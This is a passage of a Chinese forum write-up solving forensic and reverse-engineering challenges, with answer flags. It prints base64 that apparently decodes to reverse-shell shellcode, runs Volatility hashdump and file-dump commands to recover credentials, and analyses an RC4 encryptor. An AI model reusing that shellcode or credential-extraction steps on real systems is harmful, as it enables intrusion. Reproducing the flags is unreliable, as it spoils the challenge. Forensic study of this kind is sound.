BpMypqTgaMkKoWEiqkVrgiKQKUtFj9g+FIZ9apTUsn3k1l7385ABO7ozXA6APPESgm2ShNY5C6cU6g7DmHHrvzjxouKUznRStA8NX2bWUiko436VThdRydA9PiUaKQUkemkSKXaGLlq74sK/E1XcfT/uJg8yDLV3Y1iKOZ36W4ksiKlRc67i0TQINNzU/MlkMIS1Yqr6Yyqtr8zuQE6728CTtUxTB0phNBXZGeA/rKEynYIe7oyML1tNdpXIv/XnnY02Dm41OKgz8jUfvooWOIq0kHxF0qjWV82R0VGGIG+0mgtNbJNr3SEKfjA1Ux7M2HmGMxh27S2co7Zag9vtRL7Wh3LQ++T2mme9QMWSHJrGwFiE/VFXLecOmxvzTMVqb25YAQJbxsxaKzO1tzCsteafbHzDGomtXqDAuoa3o7Upwmg2h/ex+6CT9oMO7hrWYojRQvNR4cuGLJvzmJh3m44s9z9srnB+rvamsBZOtHhr3K11t5gPxA+WjtE6kQ1VlnsEMjSS7U1XbM6SK8N6b0xVaVtMpe1G/SJuVDzchPvvtH9x4YteayxaphYP7EABf4thK8TDE9iLbEuae6LF8OuEsfgQ35KLoV5iCvcxQAezeNn+DejtdGQaa7eiaPmiL3vE0vy24d8m8Zkdgu2ZL4OHcEeItTfUGO45weH05FZsTsEfKRpuJeZrNGyDvbPwFZtmAPi6C1tWmB/KrJ/Is7B/0SnaYx3uYTXBZmzlk9kAbILPedhmMEM8umYn7pva7Zl7d6OIJ+7c9pWF6Xid9miGrXvReidUllMc0/OzVTW/Sh9YC6hUU/MJzd9qbLqdZoFNgP7Qsg4lqJekvX0nGieYafA8e8SEKI0Rgd4Pr4ND6sqEJA5rgbuWBf131xVZk55qpU+v/RK4o6Dw2BwPS5eXC/ASqkGZrY0Rin0a1KXtuSRBb5O2Ugvy/tev1knWBb+zVWfNEaA52ialbaGCPY7/6dvhf6MFbx8K1fgHeL0FHZwdQvmEcr4ragxAJUnIU/jKex2Z8Aw7AK0JN1+yd0/JETBwir4CCuxt8OSlUS286EL7rczZ1+YAPu5PmfO49oPdX2KTVGf4vFh8vvDY1H7f/Wc2piBoQo8haPfmeQOGfa48iXAZHcgEbz/YP4BPOT29hlcl9Ll/ADmiosV0DAA'''
padding = '=' * (4 - len(base64_data) % 4)
base64_data += padding
compressed_data = base64.b64decode(base64_data)
with open("output.gz", "wb") as f:
    f.write(compressed_data)
print("保存成功")
```

打开`test.txt`再次解密



2.5.3.png (364.26 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=Mjc0ODUwN3wwNzI4MzgyMXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUwN3wwNzI4MzgyMXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

```python
import base64

base64_data = "/EiD5PDozAAAAEFRQVBSUUgx0lZlSItSYEiLUhhIi1IgTTHJSItyUEgPt0pKSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdBmgXgYCwIPhXIAAACLgIgAAABIhcB0Z0gB0ItIGESLQCBJAdBQ41ZI/8lNMclBizSISAHWSDHAQcHJDaxBAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEFYQVheSAHQWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpS////11JvndzMl8zMgAAQVZJieZIgeygAQAASYnlSbwCAAG9wKiu3EFUSYnkTInxQbpMdyYH/9VMiepoAQEAAFlBuimAawD/1WoKQV5QUE0xyU0xwEj/wEiJwkj/wEiJwUG66g/f4P/VSInHahBBWEyJ4kiJ+UG6maV0Yf/VhcB0Ckn/znXl6JMAAABIg+wQSIniTTHJagRBWEiJ+UG6AtnIX//Vg/gAflVIg8QgXon2akBBWWgAEAAAQVhIifJIMclBulikU+X/1UiJw0mJx00xyUmJ8EiJ2kiJ+UG6AtnIX//Vg/gAfShYQVdZaABAAABBWGoAWkG6Cy8PMP/VV1lBunVuTWH/1Un/zuk8////SAHDSCnGSIX2dbRB/+dYagBZScfC8LWiVv/V"
padding = '=' * (4 - len(base64_data) % 4)
base64_data += padding
decoded_data = base64.b64decode(base64_data)
with open('data.bin', 'wb') as file:
    file.write(decoded_data)
print("保存成功")
```



2.5.4.png (17.25 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODUwOHw4OWM3ZjJiN3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUwOHw4OWM3ZjJiN3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

flag{d72000ee7388d7d58960db277a91cc40}

## 3. 内存取证

### 获取镜像信息

```bash
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw imageinfo
```



3.0.1.png (57.96 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc0ODUwOXxkYjM2YWFmZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUwOXxkYjM2YWFmZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

#### 3.1 远程rdp连接的跳板地址：

```bash
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 netscan
```



3.1.1.png (127.19 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc0ODUxMHwyZTk3MmExNnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUxMHwyZTk3MmExNnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

flag{192.168.60.220}

#### 3.2 攻击者下载黑客工具的IP地址：

```bash
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 cmdscan
```



3.2.1.png (82.32 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODUxMXw1MTcyZmMyMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUxMXw1MTcyZmMyMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

flag{155.94.204.67}

#### 3.3 黑客获取的“FusionManager节点操作系统帐户（业务帐户）”的密码是什么：

查看攻击者执行的命令，读取了桌面的`pass.txt`文件



3.3.1.png (109.42 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc0ODUxMnw3YzQ3OTBjZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUxMnw3YzQ3OTBjZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

查找`pass.txt`

```bash
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 filescan | findstr "pass.txt"
```



3.3.2.png (32.61 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODUxM3xlMTBmYjkwZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUxM3xlMTBmYjkwZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

dump 文件

```bash
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007e4cedd0 -D C:\data
```



3.3.3.png (24.01 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODUxNHw2MTU4MWRiOXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUxNHw2MTU4MWRiOXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

查看文件内容



3.3.4.png (259.24 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODUxNXwyMTFiZDc2ZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUxNXwyMTFiZDc2ZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

flag{GalaxManager_2012}

#### 3.4 攻击者创建的用户：

Security.evtx记录安全相关的事件，如登录、权限更改、系统策略修改等

搜索 `Security.evtx` 日志文件

```bash
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 filescan | findstr "Security.evtx"
```



3.4.1.png (32.2 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODUxNnwxZWQzOTA5NnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUxNnwxZWQzOTA5NnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

dump 日志文件

```bash
```


`volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007e744ba0 -D C:\data`

修改后缀为 `.evtx`，查看



`3.4.2.png` (139.05 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODUxN3xiM2MwODVlNHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUxN3xiM2MwODVlNHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

```
flg{ASP.NET}
```

### 3.5 攻击者利用跳板rdp登录的时间



`3.5.1.png` (177.78 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODUxOHwwZTViZmJmZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUxOHwwZTViZmJmZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

`flag{2024/12/21 00:15:34}`

### 3.6 攻击者创建用户的密码哈希值：

```
volatility_2.6_win64_standalone.exe -f SERVER-2008-20241220-162057.raw --profile=Win7SP1x64 hashdump
```



`3.6.1.png` (35.92 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUxOXw4MDNhZTA3ZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUxOXw4MDNhZTA3ZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

`flag{5ffe97489cbec1e08d0c6339ec39416d}`

## 4. 逆向破解

在 `createfileW` 处下断点，



`4.1.png` (41.38 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUyMHxiOGJjY2QyMnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUyMHxiOGJjY2QyMnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

断住之后发现输入的参数为一个文件路径

跟踪发现这里使用随机数生成了六位密钥



`4.2.png` (36.73 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUyMXw5MzhlYWJmNXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUyMXw5MzhlYWJmNXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

将生成的密钥 `%10`，即生成 0-9 的密钥


`4.3.png` (4.3 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUyMnwyYjRlNzUwZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUyMnwyYjRlNzUwZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

明显的rc4特征，rc4密钥初始化


`4.4.png` (16.11 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODUyM3xkYmQxZGQzNnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUyM3xkYmQxZGQzNnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

交换数组位置，这里就是利用 `key` 生成 `s` 盒，相当于

```
for i in 0..256 {
    j = (j + s[i]  + key[i % key.len()] ) % 256;
    s.swap(i, j);
}
```


`4.5.png` (57.34 KB, 下载次数: 3)

